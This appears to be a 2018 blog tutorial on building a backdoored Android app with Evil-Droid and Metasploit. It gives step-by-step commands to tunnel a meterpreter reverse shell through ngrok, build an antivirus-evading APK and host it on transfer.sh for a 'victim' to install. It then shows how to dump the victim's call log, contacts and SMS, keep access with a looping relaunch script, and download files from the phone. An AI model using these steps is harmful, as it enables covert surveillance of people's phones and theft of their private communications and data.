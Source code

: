 ```yaml
---
layout: post-detail
title: Create a backdoored app with evil droid and metasploit.
date: 2018-06-29
categories: android metasploit
description: Create a backdoored app for android with evil-droid and metasploit.
img-url: ''
comments: true
---
```


Hi, all test has done on Kali linux.

# Ngrok

Create an account to use tcp connection: https://ngrok.com.
Address email like http://www.yopmail.com/en/ work.
After create your account, just follow instruction to download, unzip, and create an token.

    # 7z x ngrok
    # ./ngrok --authtoken xxx

Create a tcp tunnel on port 1234:

    # ./ngrok tcp 1234
    
You will receive something like this:

```
tcp.ngrok.io:15322 -> localhost:1234
```
    
# Evil-Droid

Download evil-droid: 

    # git clone https://github.com/M4sc3r4n0/Evil-Droid
    # cd Evil-Droid
    # chmod +x evil-droid
    # ./evil-droid

```
[4] BYPASS AV APK (ICON CHANGE)
SET LHOST: tcp.ngrok.io
SET LPORT: 15322
PAYLOAD NAME: nice-app
payload option: android/meterpreter/reverse_tcp
choose payload apk: APK-MSF
```

Choose an image for your backdoored app.  
After, evil-droid will create self-signed certificate to sign your android app, once you have your app, `EXIT`.

# Copy file to transfer.sh

    cd Evil-Droid/evilapk
    # curl --upload-file nice-app.apk https://transfer.sh/nice-app.apk

And give the link to the victim, she|he must install the app to their phone.

# Metasploit

Open a new terminal, we use metasploit to listen on port 1234.

    # msfconsole
      use multi/handler
      set payload android/meterpreter/reverse_tcp
      set lhost 127.0.0.1
      set lport 1234
      exploit

To get call log, contact and sms.

    dump_calllog
    dump_contacts
    dump_sms

type `help` for other commands.

# Maintain the access more time

Now than you have access to the phone, we will upload our script to maintain the access until the phone shutdown.

Open an other terminal to create a little script:

    # vim backdoor.sh

```
#!/bin/bash
while :
do am start --user 0 -a android.intent.action.MAIN -n com.metasploit.stage/.MainActivity
sleep 20
done
```

And back to metasploit, we are again on the phone:

    cd /sdcards/download
    upload backdoor.sh
    shell
    sh backdoor.sh

Ctrl+C to quit, and all the 20sec, the app is maintain will back.

If the phone of the victim shutdown or restart, you lost the access like the `backdoor.sh` do not start at boot :-(, and we don't have the root privilege to do this.

# Download files

To download files from the phone:
    
    cd /sdcard
    ls 
    cd download
    download <filename>
